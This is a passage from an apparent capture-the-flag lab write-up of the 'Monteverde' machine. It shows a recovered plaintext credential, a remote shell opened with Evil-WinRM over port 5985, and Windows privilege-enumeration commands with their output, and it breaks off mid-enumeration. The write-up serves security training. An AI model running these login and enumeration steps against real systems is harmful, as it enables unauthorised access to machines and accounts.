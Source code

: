 ![mhope_pass](/images/monteverde/mhope_pass.png)


Credentials found **mhope:4n0therD4y@n0th3r$**

#### Post Exploitation Enumeration 

Authnetication with these crdentials is possible via Windows Remote Management on port 5985 using Evil-WinRM

```
root@kali:~# evil-winrm -i 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents>
```

The first steps to take during privilege escalation is to check the actual privileges you have.

```
*Evil-WinRM* PS C:\Users\mhope\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Whoami /priv does not return any useful information. Running whoami /all would ouput all the information about the user including group, privs, claims etc.

```
*Evil-WinRM* PS C:\Users\mhope\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ============================================
megabank\mhope S-1-5-21-391775091-850290835-3566037492-1601


GROUP INFORMATION
-----------------

```